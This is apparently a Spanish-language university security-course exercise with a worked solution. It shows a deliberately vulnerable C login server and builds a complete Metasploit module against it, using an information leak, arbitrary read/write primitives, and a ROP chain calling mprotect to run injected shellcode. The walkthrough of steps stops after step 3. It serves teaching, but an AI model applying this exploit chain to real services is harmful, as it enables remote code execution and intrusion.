









# First Boss

> **Nota**: Este ejercicio y su correspondiente solución fueron presentados en su versión original como trabajo práctico final para la materia Criptografía y Seguridad Informática (66.69) de la Facultad de Ingeniería de la Universidad de Buenos Aires, segundo cuatrimestre 2018. Créditos a Carlos Germán Carreño Romano por su colaboración.


**Objetivo**: Desarrollar un exploit que permita obtener ejecución de código arbitrario en el programa listado a continuación:

```c
// server.c

#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <stdint.h>
#include <strings.h>
#include <string.h>

#define BUFFER_SIZE 256
#define MAX_FIELD_LENGTH 64
#define PORT 16000

const uint8_t DELIMITER = 0xa;

const int CONNECTION_BACKLOG = 10;

typedef struct {
  uint64_t id;
  char name[MAX_FIELD_LENGTH];
  // ... otros campos
} profile_t;

typedef struct {
  char username[MAX_FIELD_LENGTH];
  char password[MAX_FIELD_LENGTH];
  profile_t *profile;
} user_t;

void finish_connection(int socket) {
  shutdown(socket, SHUT_RDWR); close(socket);
}

int recv_data(int socket, char *buffer, size_t bytes) {
  ssize_t r = recv(socket, buffer, bytes, 0);
  return (r == -1 || r == 0) ? -1 : r;
}

int send_data(int socket, const char *buffer, size_t bytes) {
  ssize_t s = send(socket, buffer, bytes, MSG_NOSIGNAL);
  return (s == -1 || s == 0) ? -1 : s;
}

/*
 * Solamente si las credenciales user->username y user->password son correctas,
 * completa los datos del perfil del usuario, user->profile; en caso contrario,
 * no modifica ningún dato.
 */
void fill_user_profile(user_t *user) {
  /* Stub, no conocemos credenciales válidas.
   * Podemos asumir que esta función nunca modificará al objeto user.
   */
  return;
}

/*
 * Persiste los datos del perfil en la base de datos. En caso de éxito
 * devuelve 1; en caso de error devuelve 0; en caso de error (e.g. el id
 * del usuario no existe en las tablas), los datos en la base de datos
 * no serán modificados.
 */
int update_user_profile(profile_t *profile) {
  // Stub, no necesitamos actualizar ningún usuario válido.
  return 0;
}

void handle_session(int s_client, user_t *userdata) {
  char control_buffer[BUFFER_SIZE];

  const size_t CMD_LEN = 4;

  const char *CMD_QUIT = "QUIT";
  const char *CMD_NAME = "NAME";

  for (;;) {

    // Limpia el buffer de control, que guardará los comandos enviados.
    bzero(control_buffer, BUFFER_SIZE);

    // Lee el siguiente comando del cliente.
    if (recv_data(s_client, (char*)&control_buffer, CMD_LEN) == -1) {
      // Error
      break;
    }

    if (strncmp(CMD_QUIT, control_buffer, CMD_LEN) == 0) {
      /*
       * Comando CMD_QUIT
       * Finaliza la sesión.
       */
      break;

    } else if (strncmp(CMD_NAME, control_buffer, CMD_LEN) == 0) {
      /*
       * Comando CMD_NAME
       * Cambia el nombre asociado al perfil y lo persiste.
       */

      bzero(userdata->profile->name, MAX_FIELD_LENGTH);

      size_t space_left = BUFFER_SIZE - CMD_LEN;
      if (recv_data(s_client, (char*)&control_buffer + CMD_LEN, space_left) == -1) {
        // Error
        break;
      }

      // Copia el nuevo nombre de perfil a la memoria.
      char *p = &control_buffer[CMD_LEN];

      for (int i = 0; *p != 0xa; ++i, ++p) {
        userdata->profile->name[i] = *p;
      }

      /*
       * Intenta persistir el nuevo nombre en la base de datos.
       * En caso de falla, el perfil no pudo se actualizado;
       * se informa el error al usuario y se cierra la sesión.
       */
      if (!update_user_profile(userdata->profile)) {
        char *message = "ERROR:COULD_NOT_UPDATE,CLOSING;\n";
        send_data(s_client, message, strlen(message));
        break;
      }

    } else {
      char *message = "CMD:UNKNOWN;\n";
      if (send_data(s_client, message, strlen(message)) == -1) {
        // Error
        break;
      }
    }
  }
  const char *message = "BYE\n";
  send_data(s_client, message, strlen(message));
}

void handle_client_connection(int s_client) {
  char read_buffer[BUFFER_SIZE];

  /*
   * Perfil del usuario; será cargado en memoria cuando el usuario
   * se autentique en la aplicación.
   */
  profile_t profile;

  /*
   * Estructura que contendrá las credenciales del usuario temporalmente
   * hasta que éste inicie sesión.
   */
  user_t user;

  // Limpia las estructuras relevantes.
  bzero(&profile, sizeof(profile_t));
  bzero(&user, sizeof(user_t));

  /*
   * En principio, el usuario tendrá un perfil nulo, el cuál
   * será completado cuando la autenticación sea exitosa.
   */
  user.profile = &profile;

  // Inicia un ciclo interactivo con el cliente.
  for (;;) {

    // Limpia el buffer de entrada.
    bzero(read_buffer, BUFFER_SIZE);

    // Limpia usuario y contraseña
    for (int i = 0; i < MAX_FIELD_LENGTH; ++i) {
      user.username[i] = 0;
      user.password[i] = 0;
    }

    // Lee los datos del usuario al buffer de entrada.
    ssize_t r_bytes = recv(s_client, read_buffer, BUFFER_SIZE, 0);

    // En caso de error termina.
    if (r_bytes == -1 || r_bytes == 0) {
      break;
    }

    // Procesa el nombre de usuario primero.
    char *user_ptr = read_buffer;
    char *pass_ptr = user_ptr;

    for (int i = 0; user_ptr[i] != ':'; ++i) {
      user.username[i] = user_ptr[i];
      pass_ptr++;
    }

    // Procesa la contraseña.
    pass_ptr++;

    for (int i = 0; pass_ptr[i] != DELIMITER; ++i) {
      user.password[i] = pass_ptr[i];
    }

    // Carga los datos del perfil del usuario.
    fill_user_profile(&user);

    if (user.profile->id == 0) {
      // Autenticacion fallida.
      const char *message = "AUTH:FAILURE;USER:";
      if (send_data(s_client, message, strlen(message)) == -1 ||
          send_data(s_client, user.username, strlen(user.username)) == -1 ||
          send_data(s_client, &DELIMITER, 1) == -1) {
          // Error
          break;
      };

    } else {
      // Autenticación exitosa.
      const char *message = "AUTH:SUCCESS;PROFILE_NAME:";
      if(send_data(s_client, message, strlen(message)) == -1 ||
         send_data(s_client, user.profile->name, strlen(user.profile->name)) == -1 ||
         send_data(s_client, &DELIMITER, 1) == -1) {
         // Error
         break;
      };

      // Se procede al intercambio de mensajes.
      handle_session(s_client, &user);
      break;
    }
  }

  // Finaliza el intercambio de datos y cierra el socket.
  finish_connection(s_client);
}

int initialize_server() {
  struct sockaddr_in server_address;

  // Pone en cero la memoria de la estructura.
  bzero(&server_address, sizeof(server_address));

  // Inicializa el socket que escuchará conexiones.
  int s_listen = socket(AF_INET, SOCK_STREAM, 0);

  // Finaliza la ejecucion en caso de error.
  if (s_listen < 0) {
    return -1;
  }

  server_address.sin_family = AF_INET;
  server_address.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
  server_address.sin_port = htons(PORT);

  // Asocia el descriptor del socket s_listen a la dirección especificada.
  bind(s_listen, (struct sockaddr *)&server_address, sizeof(server_address));

  // Pone a escuchar el socket.
  listen(s_listen, CONNECTION_BACKLOG);

  // El socket que escucha ya ha sido inicializado y está asociado
  // al puerto PORT en todas las interfaces; devolvemos el descriptor.
  return s_listen;
}

void handle_client_connections(int s_listen) {
  for (;;) {

    // Acepta una conexión entrante y devuelve el socket.
    int s_client = accept(s_listen, (struct sockaddr*) NULL, NULL);

    // Maneja la conexión del cliente.
    handle_client_connection(s_client);

  }
}

int main(int argc, char **argv) {
  // Inicializa el socket que escuchará por conexiones de clientes.
  int s_listen = initialize_server();

  /*
   * Si el socket fue inicializado correctamente, se aceptan
   * y se manejan las conexiones entrantes.
   */
  if (s_listen > 0) {
    handle_client_connections(s_listen);
  }
}

void aid() {
  asm("pop %rsi");
  asm("ret");
  asm("pop %rdi");
  asm("ret");
  asm("pop %rdx");
  asm("ret");
}
```

En Ubuntu 18.04, x86-64, el problema debería ser resoluble sin deshabilitar ninguna mitigación. Por supuesto, no se permite modificar ni el código ni el binario compilado.


## Solución

La solución de este ejercicio no involucra ningún procedimiento nuevo más allá de los estudiados en ejercicios anteriores. El desarrollo de la solución será, por lo tanto, principalmente descriptiva. No ahondaremos en los detalles ni en los fundamentos teóricos de los distintos pasos.


#### Interacción inicial e information leak

Procedemos entonces al análisis del programa vulnerable. En principio, se trataría de algún tipo de servidor. Aparentaría, de hecho, tratarse de un servidor protegido por algún esquema de autenticación. Comenzamos compilando el programa y ejecutándolo:

```bash
gcc server.c -o server && ./server
```

Procedemos luego a conectarnos con netcat y a enviar algunos mensajes:




Observamos que el servidor implementa algún tipo de protocolo de autenticación (uno muy crudo y definitivamente inseguro, pero no es ese el foco del ejercicio). Esencialmente, para aceptar el inicio de sesión, el servidor espera un mensaje con el formato

```
<username>:<password>\n
```

No sabemos qué devuelve en caso de autenticación exitosa, pero es evidente que en caso de recibir credenciales incorrectas devuelve un mensaje de la forma

```
AUTH:FAILURE;USER:<username>\n
```


No nos enfocaremos en el procedimiento de búsqueda de vulnerabilidades, solo en el proceso de explotación. Cabe sin embargo repasar la idea fundamental. La idea es identificar estructuras de datos sobre las cuáles tenemos control, y operaciones que dependen de dichas estructuras, o más concretamente, de los datos que controlamos. Debemos identificar, adicionalmente, los supuestos en los que se basan estas operaciones, particularmente aquellos que no están siendo validados rigurosamente. Por ejemplo, en un stack overflow clásico el atacante observa que puede violar algún supuesto en el código para extender su control desde los buffers de entrada hacia el stack frame, otra estructura de datos. El procedimiento puede continuar iterativamente, identificando nuevas operaciones que dependan de los datos que el atacante controla, violando supuestos, y extendiendo su control cada vez más, llegando eventualmente a lograr algún fin como la ejecución de código arbitrario.

Veamos entonces comó podemos atacar este programa. Primero, si observamos cuidadosamente, notaremos que en la función `handle_client_connection` los campos usuario y contraseña no son delimitados correctamente con un caracteres nulos. Observemos qué ocurre si pasamos un nombre de usuario de exactamente 64 bytes, y una contraseña de exactamente 64 bytes:



Observamos que el servidor nos devuelve en parte el mensaje esperado, pero nos devuelve también varios bytes adicionales que se filtraron porque el servidor no delimitó correctamente el campo del nombre de usuario al momento de copiarlo a un buffer local. Lo que tenemos aquí es efectivamente un **information leak**, un buffer overread concretamente. Si verificamos en el código notaremos que esos bytes resaltados corresponden a los bytes menos significativos del puntero `profile` en el tipo que representa aparentemente un usuario:

```c
typedef struct {
  char username[MAX_FIELD_LENGTH];
  char password[MAX_FIELD_LENGTH];
  profile_t *profile;
} user_t;
```

Es decir, existe un objeto de tipo `user_t` que representa de alguna forma un usuario, y ese usuario tiene un perfil. Aparentemente, previo a la autenticación, el objeto perfil ya existe, si bien vacío, y se encuentra, al menos en esta ejecución particular, en la dirección `0x7ffe309eba60`.


#### Desarrollo de un módulo de Metasploit

Previo a continuar con la explotación intentaremos automatizar esta parte del ataque. Este information leak será fundamental en el procedimiento de explotación, por lo que iremos construyendo un módulo de Metasploit que abuse de la vulnerabilidad para filtrar la dirección de la estructura de datos. Eventualmente iremos develando más primitivas y las iremos encadenando para construir un exploit completo.

Para construir nuestro módulo, nos basaremos en principio en la siguiente plantilla:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '6669 Basic Exploit',
      'Description'    => 'Exploit for PoC server',
      'Author'         => [ 'abarreal', 'cromano' ],
      'Privileged'     => false,
      'Platform'       => 'linux',
      'Arch'           => [ ARCH_X64 ],
      'DefaultOptions' => 
        {
          'RPORT' => 16000
        }
      'Targets'        =>
        [
          [ 'Linux x86_64', {
                'Arch' => ARCH_X64,
                'Platform' => 'linux',
          }]
        ],
      'DefaultTarget' => 0))
  end

  def exploit
    print "Hello, world!\n"
  end

end
```

Se trata simplemente de un "hello world" con alguna configuración adicional para indicarle a Metasploit que se trata efectivamente de un módulo. Colocaremos el script con nombre `6669_exploit.rb` en el directorio `~/.msf4/modules/exploits/` y ejecutaremos `msfconsole`. 

Si ejecutamos ahora el comando `grep 6669_exploit show exploits` observaremos que nuestro exploit aparece listado:




Procedemos a cargar el exploit para darle un test run. Escribimos `use 6669_exploit`, definimos un objetivo y ejecutamos `run`. En este caso el exploit no hará nada más que mostrar un mensaje en pantalla, con lo cuál Metasploit nos confirmará que "no se estableción ninguna sesión":




Lo que haremos ahora es implementar el código que efectivamente explota el leak. Definimos la siguiente función principal del módulo, reemplazando la anterior:

```ruby
def exploit
  begin

    print "[*] Connecting...\n"
    connect 

    stage_one = "#{'A'*64}:#{'B'*64}\n"

    print "[*] Leaking profile address...\n"
    sock.put stage_one

    response = sock.get_once || '' 

    if response.length != 153
      print "[x] Unexpected response length; profile address may have null bytes.\n"
      raise 'Could not leak profile address'
    end

    profile_address = (response[-7..-2].bytes + [0, 0]).pack("C*").unpack("Q<").first

    print "[*] Leaked address: 0x#{profile_address.to_s(16)}\n"

  ensure
    print "[*] Disconnecting...\n"
    disconnect
    print "[*] Done.\n"
  end
end
```

Si realizamos los cambios, ejecutamos un reload en Metasploit, y ejecutamos el exploit nuevamente, deberíamos observar algo como lo siguiente:




Observamos que el script filtra efectivamente la dirección del perfil en memoria. Algo a notar es que en el código del exploit definimos también un potencial caso de error: si el exploit funcionó correctamente y se filtró la dirección completa, la respuesta debe tener 153 bytes. Para que esto no se cumpla debería darse que la dirección del perfil en el stack tenga algún byte nulo otro que los dos más significativos, con lo cuál el string finalizaría prematuramente. En tal caso deberíamos hacer algo más para filtrar la dirección completa. Alternativamente, en una situación de red team, podemos esperar a que el servidor sea reiniciado para probar nuevamente.


#### Ataques de corrupción de memoria

Procedemos ahora a explotar otra vulnerabilidad para obtener primitivas adicionales. La vulnerabilidad que explotaremos está de hecho atada a la que ya hemos visto; esta vez, en vez de pasar una contraseña de 64 bytes, pasaremos algunos bytes adicionales para desbordar el buffer y sobrescribir así la dirección del perfil del usuario. Con este mecanismo podemos desarrollar al menos dos primitivas adicionales: una **lectura a partir de una dirección "casi" arbitraria** y eventualmente una **escritura de datos arbitrarios a partir de una dirección "casi" arbitraria**.

La lectura se logra de la siguiente forma: aprovechando el desborde, hacemos que el puntero al perfil apunte 8 bytes debajo del string que queremos leer. Por ejemplo, supongamos que `string` es el string que queremos leer y `x` es un valor no nulo. Supongamos entonces que modificamos el puntero `profile` para producir el siguiente esquema.

```
profile -> | x            | profile.id
           | string[0..7] | profile.name
           | string[8...] |
           | ...          |
```

Ya que `x` es valor no nulo, lo que ocurrirá es que el programa creerá que la autenticación fue exitosa, procediendo a devolver un mensaje de la forma

```
AUTH:SUCCESS;PROFILE_NAME:<nombre registrado>
```

... donde el "nombre registrado" es efectivamente el campo `name` del objeto `profile`, el cuál será el string que queremos leer. 

En adición a los supuestos que permiten el desborde, este exploit se basa también en el siguiente supuesto: el código asume que el identificador `profile.id` siempre será nulo mientras las credenciales no sean válidas, lo cuál vemos que no necesariamente se cumple.

Si continuamos la línea del exploit anterior, podemos lograr también una primitiva de escritura practicamente arbitraria. Lo que debemos hacer en este caso es hacer que profile apunte 8 bytes debajo de la posición de memoria a partir de la cuál queremos escribir. Si alguno de esos 8 bytes son no nulos, iniciaremos una sesión falsa en la cuál podremos utilizar el comando `NAME` para escribir datos arbitrarios a partir de la dirección indicada. En esta instancia, el exploit podría tener efectos colaterales: si el identificador del perfil virtual que creamos corresponde efectivamente a un usuario del sistema, la función `update_user_profile` podría sobrescribir  el nombre de un usuario válido (por supuesto, en este ejemplo se trata de un stub, por lo que no habrá ningún tipo de escritura). A esta altura, sin embargo, al atacante ésto ya podría no importarle: la posibilidad de ejecutar código arbitrario existe independientemente del resultado.


#### Desarrollo de un exploit

Ya contamos con mecanismos potentes de lectura y de escritura. Lo que sigue a continuación es encadenarlos para construir un exploit. Primero presentaremos el módulo de Metasploit, y luego lo analizaremos paso por paso.

El módulo completo de Metasploit es el siguiente:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '6669 Basic Exploit',
      'Description'    => 'Exploit for PoC server',
      'Author'         => [ 'abarreal', 'cromano' ],
      'Privileged'     => false,
      'Payload'        => {
          'Space' => 64
        },
      'Platform'       => 'linux',
      'Arch'           => [ ARCH_X64 ],
      'DefaultOptions' => {
          'RPORT' => 16000
        },
      'Targets'        =>
        [
          [ 'Ubuntu 18.04 x86_64', {
                'Arch' => ARCH_X64,
                'Platform' => 'linux',
                'Offset from profile to buffer' => 0x50,
                'Offset from profile to ret' => 0x1f8,
                'Offset from profile to pointer to f' => 0x258,
                'Offset from f to mprotect' => 0xf9f49,
                'Offset from code leak to ROP anchor' => 0x35
          }]
        ],
      'DefaultTarget' => 0))
  end

  def exploit
    begin
      print "[*] Connecting...\n\n"
      connect 

      # Obtenemos la dirección del objeto profile.
      addr_profile = retrieve_profile_address()
      
      # Calculamos la dirección del buffer.
      addr_buffer = addr_profile + target['Offset from profile to buffer']
      print "[*] Computed buffer address: 0x#{addr_buffer.to_s(16)}.\n\n"
        
      # Calculamos la dirección de la dirección de retorno del frame.
      addr_ret = addr_profile + target['Offset from profile to ret']
      print "[*] Computed frame return slot address: 0x#{addr_profile.to_s(16)}.\n\n"
        
      # Calculamos la dirección de el puntero a __libc_start_main+231.
      addr_f_ptr = addr_profile + target['Offset from profile to pointer to f']
        
      # Obtenemos la dirección de __libc_start_main+231.
      print "[*] Trying to retrieve &__libc_start_main+231...\n"
      addr_f = read_pointer_in(addr_f_ptr)
        
      # Calculamos la dirección de mprotect.
      addr_mprotect = addr_f + target['Offset from f to mprotect']
        
      print "[*] Computed &mprotect = 0x#{addr_mprotect.to_s(16)}.\n\n"
        
      # Desconectamos y reconectamos
      print "[*] Restarting connection...\n"
      disconnect
      connect
        
      # Leemos la dirección de retorno.
      print "[*] Trying to read address from code section.\n"
      addr_code = read_pointer_in(addr_ret)
        
      # Calculamos la dirección de aid.
      addr_rop = addr_code + target['Offset from code leak to ROP anchor']
        
      print "[*] Computed ROP anchor: 0x#{addr_rop.to_s(16)}.\n\n"
        
      # Desconectamos y reconectamos
      print "[*] Restarting connection and preparing exploit...\n"
      disconnect
      connect
        
      # Preparamos el payload.
      payload_length = payload.encoded.length
      padding = '\x90'*(64 - payload_length)
        
      # Construimos la cadena.
      chain = [
        addr_rop + 4,
        0x1800,
        addr_rop + 6,
        addr_buffer & 0xfffffffffffff000,
        addr_rop + 8,
        0x7,
        addr_mprotect,
        addr_buffer
      ].pack('Q<*').force_encoding("ASCII-8BIT")
        
      # Calculamos la dirección del perfil virtual para ejecutar la escritura.
      addr_vprofile = [addr_ret - 8].pack('Q<')
        
      # Preparamos el exploit final.
      stage_one = "#{payload.encoded}#{padding}:#{'B'*64}#{addr_vprofile}\x0a"
      stage_two = "NAME#{chain}\x0a"
        
      print "[*] Sending stage 1...\n"
      sock.send stage_one, 0
      sock.gets
        
      print "[*] Sending stage 2...\n"
      sock.send stage_two, 0
      sock.gets
        
      print "[*] Exploit sent.\n\n"
 
    ensure
      print "[*] Disconnecting...\n"
      disconnect
      print "[*] Done.\n"
    end
  end
    
  def extract_address(address_low_six_str)
    (address_low_six_str.bytes + [0, 0]).pack("C*").unpack("Q<").first
  end
    
  def retrieve_profile_address()
    print "[*] Attempting to leak profile address...\n"
    
    exploit = "#{'A'*64}:#{'B'*64}\n"
      
    print "[*] Sending read exploit...\n"
    sock.put exploit
      
    response = sock.gets || ''
      
      
    if response.length != 153
      print "[x] Unexpected response length; profile address may hav null bytes.\n"
      raise 'bulletproof address leak not implemented!'
    end
      
    address = extract_address(response[-7..-2])
    print "[*] Leaked address: 0x#{address.to_s(16)}.\n\n"
      
    return address
  end

  def read_pointer_in(address)
    print "[*] Attempting to read pointer value in 0x#{address.to_s(16)}...\n"
    
    message = "#{'A'*64}:#{'B'*64}#{[address - 8].pack('Q<')}\x0a"
      
    print "[*] Sending read exploit...\n"
    sock.put message
      
    response = sock.gets || ''
    
    if !response.include?("AUTH:SUCCESS;PROFILE_NAME:")
      print "[x] Unexpected response; fake auth failed.\n"
      raise 'fake auth failed; could not read pointer value.'
    end
      
    if response.length != 33
      print "[x] Unexpected response length; address may have null bytes.\n"
      raise 'bulletproof address leak not implemented!'
    end
    
    pointer_value = extract_address(response[-7..-2])
      
    print "[*] Retrieved pointer value: 0x#{pointer_value.to_s(16)}.\n\n"

    sock.send 'QUIT', 0
    response = sock.gets
      
    if !response.include? "BYE"
      print "[x] Unexpected response to QUIT command.\n\n"
      raise 'could not finish session properly'
    end

    return pointer_value
  end

end
```


Los pasos que ejecuta el exploit son los siguientes:

1. Recupera la dirección del objeto profile en el stack. Con ésto obtiene efectivamente una dirección en el stack, a partir de la cuál puede calcular las direcciones de otros elementos cercanos, como el buffer y la dirección de retorno, venciendo así a ASLR, al menos parcialmente.
2. El exploit procede calculando las mencionadas direcciones. Adicionalmente, calcula la dirección de un puntero almacenado en el stack; este puntero apunta a `__libc_start_main+231`, en libc. Esto es importante porque leer el valor de ese puntero nos permite obtener efectivamente una dirección en libc, a partir de la cuál podemos calcular la dirección de `mprotect`.
3. Se utiliza la primitiva de lectura para leer el puntero, obteniendo la mencionada dirección en libc. En base a esa dirección, se calcula efectivamente la dirección de `mprotect`.
